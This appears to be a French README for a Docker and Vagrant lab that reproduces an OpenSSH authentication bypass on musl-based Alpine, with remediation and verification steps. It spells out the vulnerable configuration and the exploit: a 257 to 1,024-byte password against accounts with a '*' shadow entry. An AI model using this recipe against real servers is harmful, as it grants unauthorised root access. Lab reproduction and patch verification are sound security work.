

# SSHole — PoC reproductible dans un conteneur Alpine(CVE-2026-123158, score CVSS de 8,1)

PoC local pour reproduire et comprendre le contournement d’authentification SSHole (CVE-2026-123158) dans une configuration OpenSSH vulnérable utilisant musl libc.

>  **Avertissement Légal (Disclaimer)** : Ce dépôt a été conçu uniquement à des fins éducatives et de démonstration en environnement isolé. L'utilisation des techniques ou configurations présentées ici contre des systèmes sans autorisation explicite est strictement illégale.

## À propos

SSHole résulte d’une interaction entre `sshd` et la fonction `crypt()` de musl. Pour certains mots de passe trop longs, musl renvoie `*` comme indicateur d’erreur. Dans une configuration vulnérable, cette valeur peut être interprétée comme correspondant au champ `*` d’un compte qui n’a pas de mot de passe utilisable, ce qui entraîne un contournement de l’authentification.

Ce dépôt fournit un environnement reproductible basé sur :

- **Vagrant**, pour démarrer la machine virtuelle de laboratoire (optionnelle);
- **Docker Compose**, pour exécuter la cible isolée ;
- **Alpine Linux 3.19** et **musl libc** ;
- **OpenSSH 9.6p1**, dans une révision non corrigée.

Le PoC est conservé à des fins d’étude et de validation. Pour toute utilisation réelle, appliquez les correctifs indiqués dans la section [Correction](#correction).

---

## Contexte Technique & Prérequis de la Faille

Le test ne fonctionne que si toutes les conditions pertinentes sont réunies :

1. `sshd` utilise musl et n’utilise pas PAM (`UsePAM no`, ou compilation sans PAM) ;
2. le serveur OpenSSH n’a pas reçu le correctif SSHole ;
3. `PasswordAuthentication yes` est effectif ;
4. le compte ciblé possède un champ de mot de passe `*` ;
5. un autre compte local dispose d’un hachage `$5$` ou `$6$` ;
6. pour cibler `root`, `PermitRootLogin yes` autorise la connexion par mot de passe.

La chaîne envoyée comme mot de passe doit mesurer **257 à 1 024 octets**. Le compte `root` n’est pas automatiquement accessible : la configuration SSH et les comptes présents dans l’image déterminent les comptes visés.

> **Révisions Alpine et correctifs rétroportés :** le seul numéro amont `9.6p1` ne permet pas de conclure qu’un paquet est vulnérable. Alpine a rétroporté le correctif dans `openssh-server` `9.6_p1-r3`.

---

## Prérequis Système (Machine Hôte)

Sur la machine hôte :

- Git ;
- Vagrant (optionel);
- le fournisseur de virtualisation configuré dans le `Vagrantfile` (ici VMware) ;
- suffisamment de mémoire et d’espace disque pour démarrer la VM.

Docker est utilisé dans la VM de laboratoire. Il n’est pas nécessaire de l’installer sur l’hôte, le provisionnement Vagrant l’installe déjà.
---

## Installation et Lancement du Laboratoire

Suivez ces étapes dans l'ordre pour déployer l'environnement :

### 1 Cloner le dépôt
```bash
git clone [https://github.com/](https://github.com/)diallocode/SSHOLE-POC.git
cd /SSHOLE-POC
```

### 1.2  Accéder au répertoire Docker 
Cette etape vous permet de demarrer le conteneur directement sur votre propre machine, si vous voulez utilisez une vm avec vagrant, passer a l'etape suivante.
```bash
cd /SSHOLE-POC/docker
docker compose up --build -d
```
### 1.3 Demarrage sous vagrant (optionnel)
Vous permet d'avoir un environement isole avec un vm dans laquelle va tourner le container. Si vous avez fait l'option `1.2`, passez directement a l'etape `2` sinon continuez.
#### 1.3.1 Démarrer l'environnement Vagrant
```bash
vagrant up
```
vagrant vous met en place automatiquement tout l'environement, ainsi que docker.

#### 1.3.2 Se connecter à la VM et accéder au répertoire Docker
```bash
vagrant ssh
cd /vagrant/docker
```

### 2. Vérifier que le conteneur cible est opérationnel
```bash 
docker ps
```
Vous devriez voir un conteneur basé sur alpine:3.19 a l'interieur sous le nom : `docker-sshd-1`


Si le conteneur n’a pas été démarré automatiquement par le provisionnement, lancez-le :

```bash
docker compose up -d
```

### 5. Vérifier la configuration vulnérable effective dans le conteneur
Avant le test, vérifiez les versions et la configuration réellement chargées :

```bash
docker compose ps
docker compose exec sshd cat /etc/alpine-release
docker compose exec sshd apk info -v openssh-server
docker compose exec sshd sshd -V 2>&1
docker compose exec sshd ldd /usr/sbin/sshd
docker compose exec sshd sshd -T | grep -E '^(usepam|passwordauthentication|permitrootlogin) '
```

Confirmez les points suivants :

- la cible est bien Alpine 3.19 et `sshd` est lié à musl ;
- la révision installée est vulnérable et n’inclut pas le correctif ;
- `usepam no` et `passwordauthentication yes` sont effectifs ;
- le compte choisi et les comptes nécessaires au scénario sont présents ;
- pour un test sur `root`, `permitrootlogin yes` est effectif.


### 4. Identifier un compte cible sans mot de passe
La faille exploite les comptes dont le champ mot de passe dans `/etc/shadow` est `*`, typiquement les comptes configurés pour une authentification par clé uniquement.

Sur Alpine, root est souvent dans ce cas si aucun mot de passe n'a été défini. Un autre utilisateur non route ayant la meme config est egalement present dans ce fichier pour le test.

Pour notre exemple on a creer expres un compte qui s'appel `Clelie` et mis `PermitRootLogin` a `yes`, vous pouvez utiliser l'un et/ou l'autre pour tester

### 5. Tenter l'authentification bypass (PoC)
Depuis la VM, récupérez l’adresse IP du conteneur :

```bash
docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' docker-sshd-1
```

Lancez le client SSH en imposant l’authentification par mot de passe :

```bash
ssh root@<ip_container>
```
Entrez une premiere fois un faux mot de passe pour recuperer le sel d'un utilisateur existant.

Il va vous dire `Authentication failed, try again : `

Puis saisissez un mot de passe de 257 à 1 024 octets. La reproduction est confirmée si le serveur ouvre une session pour le compte ciblé sans mot de passe valide.


## Vérifier une correction

### Mise à jour d’OpenSSH
Mettez à jour vers une version corrigée de la distribution. Sur Alpine 3.19, la révision corrigée indiquée est `9.6_p1-r3` ou toute révision ultérieure corrigée disponible pour cette branche.

Dans le conteneur de laboratoire :

```bash
docker compose exec -u root sshd apk upgrade -U -a
docker compose restart sshd
docker compose exec sshd apk info -v openssh-server
```

Le redémarrage est nécessaire pour que le service utilise le binaire mis à jour.


### Désactivation de l’authentification par mot de passe

Comme mesure d’atténuation, configurez le serveur avec :

```text
PasswordAuthentication no
```

Validez la configuration et vérifiez sa valeur effective :

```bash
docker compose exec sshd sshd -t
docker compose exec sshd sshd -T | grep '^passwordauthentication '
```

La sortie attendue est `passwordauthentication no`. Redémarrez ensuite le service et refaites le test : l’authentification par mot de passe doit être refusée.

Une modification faite directement dans un conteneur en cours d’exécution est temporaire. Pour conserver la correction, modifiez la configuration source utilisée par Compose, le fichier se trouve dans `SSHOLE-POC/docker/config/sshd_config`, puis reconstruisez et redémarrez le service. Dans un système réel, vérifiez d’abord qu’un autre accès administrateur est fonctionnel.

### Vérification post-correction
La connexion doit désormais échouer avec **Permission denied**.

capture a inserer

## Nettoyage de l'environnement
Depuis la VM, quittez la session puis détruisez la machine Vagrant :

```bash
exit
vagrant destroy -f
```

## Captures d'écran

### Étape 1 — Conteneur actif


### Étape 2 — PoC avant correction

*Figure 1 — Bypass d'authentification réussi : shell root obtenu sans mot de passe valide.*

### Étape 4 — PoC après correction

*Figure 2 — Après application de l'atténuation, la connexion est refusée.*


## Références

- [Avis de sécurité Alpine Linux — contournement de l’authentification par mot de passe OpenSSH](https://www.alpinelinux.org/posts/2026-11-05-openssh-password-authentication-bypass/)
- [Notes de version OpenSSH 10.6p2](https://www.openssh.com/txt/release-10.6p2)

- [sshhole.com](https://sshhole.com/)